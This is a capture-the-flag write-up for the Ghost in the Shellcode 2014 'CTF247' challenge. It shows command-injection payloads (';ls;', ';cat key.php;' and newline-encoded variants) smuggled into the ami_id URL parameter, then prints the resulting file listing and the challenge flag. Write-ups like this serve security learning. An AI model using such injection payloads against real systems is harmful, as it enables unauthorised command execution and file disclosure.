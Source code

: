 # Ghost in the Shellcode 2014: CTF247

**Category:** Recon
**Points:** 100
**Description:**

> CTF247 is awesome <http://ctf247.2014.ghostintheshellcode.com/>

## Write-up

The `ami_id` parameter on [the ‘Fortress’ page](http://ctf247.2014.ghostintheshellcode.com/ec2.php) is vulnerable to command injection.

The response bodies for [`/ec2.php?ami_id=;ls;`](http://ctf247.2014.ghostintheshellcode.com/ec2.php?ami_id=;ls;) or [`/ec2.php?ami_id=%0als%0a`](http://ctf247.2014.ghostintheshellcode.com/ec2.php?ami_id=%0als%0a) start with:

```
ec2-api-tools-1.6.12.0
ec2.php
index.html
index_files
key.php
```

Aha! There’s a file named `key.php`. Let’s see what it says by visiting [`/ec2.php?ami_id=;cat%20key.php;`](http://ctf247.2014.ghostintheshellcode.com/ec2.php?ami_id=;cat%20key.php;) or [`/ec2.php?ami_id=%0acat%20key.php%0a`](http://ctf247.2014.ghostintheshellcode.com/ec2.php?ami_id=%0acat%20key.php%0a):

```php
<?php
  /* flag{0aea26e968895efa40b563e3e8fe8f19} */
  echo('There\'s a key here.');
?>
```

## Other write-ups

* <http://blogs.tunelko.com/2014/01/19/ghost-in-the-shellcode-2014-write-up-ctf247/>
* <http://insertco.in/2014/01/19/ctf247-gits-2014/>
